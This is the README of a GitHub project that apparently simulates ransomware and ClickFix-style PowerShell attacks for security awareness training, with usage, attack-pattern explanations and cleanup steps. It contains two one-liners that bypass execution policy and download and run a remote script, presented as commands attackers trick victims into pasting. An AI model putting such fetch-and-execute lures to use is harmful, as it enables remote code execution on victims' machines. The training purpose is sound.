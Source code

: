 # Simalicious - Cybersecurity Training Scripts

PowerShell scripts that simulate malicious activity for cybersecurity awareness training. These scripts demonstrate common attack patterns without causing actual harm.

## ⚠️ IMPORTANT DISCLAIMER

**THESE SCRIPTS ARE FOR EDUCATIONAL AND TRAINING PURPOSES ONLY**

- No files are actually encrypted or harmed
- No real malicious activity occurs
- All actions are simulated for learning
- Do not use these scripts for illegal purposes
- Always run in controlled training environments

## 🎯 Training Scenarios

### Phishing & ClickFix Attacks
These scripts simulate the PowerShell-based attacks commonly delivered through:
- Phishing emails with malicious attachments
- "ClickFix" social engineering (fake error messages)
- Malicious websites instructing users to run PowerShell commands
- Tech support scams

## 📁 Files Included

### `simalicious.ps1` - Main Simulation Script
The comprehensive malware simulation that demonstrates:
- System reconnaissance and information gathering
- File discovery and targeting
- Fake encryption process with progress indicators
- Ransomware note creation
- Persistence mechanism simulation
- Command & Control (C2) communication simulation
- Anti-analysis techniques

**Usage:**
```powershell
# Basic execution
.\simalicious.ps1

# Verbose mode (shows detailed operations)
.\simalicious.ps1 -Verbose

# Quick mode (faster execution for demos)
.\simalicious.ps1 -QuickMode


# Usage examples that attackers might instruct victims to run:

# Windows - Via Run Dialog (Win+R):
powershell -ep bypass -c "iex (iwr 'https://raw.githubusercontent.com/ifrantic/simalicious/refs/heads/main/simalicious.ps1').Content"

# Cross-platform - Via Terminal/Command Prompt (requires PowerShell):
powershell -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/ifrantic/simalicious/refs/heads/main/simalicious.ps1' -UseBasicParsing).Content"

```
## 🚨 Common Attack Patterns Demonstrated

### 1. Windows ClickFix Pattern
Attackers often instruct Windows victims to:
1. Press `Windows + R` to open Run dialog
2. Paste a malicious PowerShell command
3. Press Enter to execute

### 2. Linux/macOS ClickFix Pattern
Attackers often instruct Linux/macOS victims to:
1. Press `Ctrl + Alt + T` (Linux) or `Cmd + Space` then type "Terminal" (macOS)
2. Paste a malicious PowerShell command
3. Press Enter to execute

### 3. Cross-Platform Social Engineering
- **Fake error messages** claiming system compromise
- **Urgent instructions** to "fix" the problem immediately
- **Technical-sounding commands** that victims don't understand
- **Authority impersonation** (IT support, Microsoft, etc.)


## 🛡️ Training Value

This simulation helps learners understand:

### Attack Techniques
- How malware gathers system information
- File discovery and targeting methods
- Encryption simulation and ransom demands
- Persistence and stealth techniques
- Command and control communication

### Social Engineering
- ClickFix attack methodology
- PowerShell-based delivery mechanisms
- Urgency and fear tactics in ransom notes
- Technical instruction obfuscation

### Detection Opportunities
- Suspicious PowerShell execution patterns
- Network communication indicators
- File system changes and artifacts
- Registry and persistence modifications

## 🔧 Training Environment Setup

### Prerequisites
**Windows:**
- Windows system with PowerShell 5.0+
- Ability to run PowerShell scripts
- Controlled/isolated training environment

**Linux:**
- PowerShell Core installed (`sudo apt install powershell` or equivalent)
- Terminal access
- Controlled/isolated training environment

**macOS:**
- PowerShell Core installed (`brew install powershell`)
- Terminal access
- Controlled/isolated training environment


## 🧹 Cleanup

The simulation creates temporary files for realism:

### Automatic Cleanup Locations
**Windows:**
- Temp directory: `%TEMP%\simalicious_training\`
- Desktop ransom note: `Desktop\README_SIMALICIOUS_TRAINING.txt`
- Additional temp files in `%TEMP%`

**Linux/macOS:**
- Temp directory: `/tmp/simalicious_training/`
- Desktop ransom note: `~/Desktop/README_SIMALICIOUS_TRAINING.txt`
- Additional temp files in `/tmp/`

### Manual Cleanup
**Windows:**
```powershell
# Remove simulation artifacts
Remove-Item "$env:TEMP\simalicious_training" -Recurse -Force -ErrorAction SilentlyContinue
Remove-Item "$env:USERPROFILE\Desktop\README_SIMALICIOUS_TRAINING.txt" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:TEMP\YOUR_FILES_ARE_ENCRYPTED.txt" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:TEMP\TRAINING_RANSOM_NOTE.txt" -Force -ErrorAction SilentlyContinue
```

**Linux/macOS:**
```bash
# Remove simulation artifacts
rm -rf /tmp/simalicious_training
rm -f ~/Desktop/README_SIMALICIOUS_TRAINING.txt
rm -f /tmp/YOUR_FILES_ARE_ENCRYPTED.txt
rm -f /tmp/TRAINING_RANSOM_NOTE.txt
```

---

**Remember**: The best defense against these attacks is user education and technical controls working together!
